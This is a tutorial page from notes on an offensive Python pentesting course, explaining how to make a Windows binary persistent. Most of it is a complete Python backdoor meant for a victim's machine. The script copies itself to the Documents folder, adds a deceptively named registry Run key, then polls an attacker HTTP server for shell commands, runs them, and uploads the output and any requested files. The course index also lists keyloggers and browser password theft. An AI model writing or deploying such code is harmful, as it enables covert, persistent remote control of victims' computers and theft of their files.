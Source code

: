 ```yaml
---
title: Making your binary persistent
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - persistence
  - registry
---
```


# Making your binary persistent

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


In order for a binary to persist, the binary must do three things:

**1.** To copy itself into a different location. We need source path (current working directory) and destination path, for instance, the Document folder. This means that we need to know the username: 

	```cmd
		c:\Users\<username>\Documents
	```
	
**2.** To add a registry key pointing to our new exe location. This is done only the first time.

**3.** For consecutive times, we have to avoid repeating steps 1 and 2.


## Phases for persistence

### 1. System recognition

Getting to know the current working directory + the user profile.


### 2. Copy the binary to a different location

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will copy the binary to a different location. For that, we need a source path (current working directory) and a destination path, for instance, the Document folder. This means that we need to know the current working directory (for the source path)  and the username (for the destination path): 

	```cmd
		c:\Users\<username>\Documents
	```

This information was already retrieved in step 1 (System recognition).

### 3. Add a Registry key 

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will add a Registry key.

### 4. Fire up our shell


## Client side

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import requests
import os
import subprocess
import time
import shutil 
import winreg as wreg

#Reconn Phase
path = os.getcwd().strip('/n')

Null, userprof = subprocess.check_output('set USERPROFILE', shell=True,stdin=subprocess.PIPE,  stderr=subprocess.PIPE).decode().split('=')

destination = userprof.strip('\n\r') + '\\Documents\\' + 'client.exe'

#If it was the first time our backdoor gets executed, then Do phase 1 and phase 2 
if not os.path.exists(destination):
    shutil.copyfile(path+'\client.exe', destination) #You can replace   path+'\client.exe' with sys.argv[0] ---> the sys.argv[0] will return the file name

    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", 0, wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ, destination)
    key.Close()



#Last phase is to start a reverse connection back to our kali machine

while True:
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```
